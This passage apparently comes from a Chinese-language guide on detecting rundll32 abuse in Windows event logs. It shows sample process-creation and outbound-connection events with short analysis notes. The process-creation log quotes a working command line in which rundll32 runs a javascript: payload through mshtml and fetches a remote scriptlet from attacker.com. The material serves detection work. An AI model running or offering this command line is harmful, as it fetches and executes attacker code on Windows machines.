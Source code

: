 ```xml
  帐户名: user
  帐户域: WIN10-TEST
  登录 ID: 0x12345

目标主题:
  安全 ID: NULL SID
  帐户名: -
  帐户域: -
  登录 ID: 0x0

进程信息:
  新进程 ID: 0x1a2b
  新进程名称: C:\Windows\System32\rundll32.exe
  令牌提升类型: %%1938
  强制性标签: Mandatory Label\Medium Mandatory Level
  创建者进程 ID: 0x3c4d
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://attacker.com/malicious.sct")
```

**分析**：
- 日志记录`rundll32.exe`执行，命令行包含`javascript:`和远程URL。
- 父进程为`cmd.exe`，提示通过命令提示符触发。

### Windows安全日志（Event ID 5156：WFP连接）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 5156
任务类别: Filtering Platform Connection
级别: 信息
用户: N/A
计算机: WIN10-TEST
描述:
Windows过滤平台已允许连接。

应用程序信息:
  进程 ID: 6824
  应用程序名称: \device\harddiskvolume1\windows\system32\rundll32.exe

网络信息:
  方向: 出站
  源地址: 192.168.1.100
  源端口: 49152
  目标地址: 93.184.216.34
  目标端口: 443
  协议: 6

过滤器信息:
  过滤器运行时 ID: 12345
  层名称: Connect
  层运行时 ID: 48
```
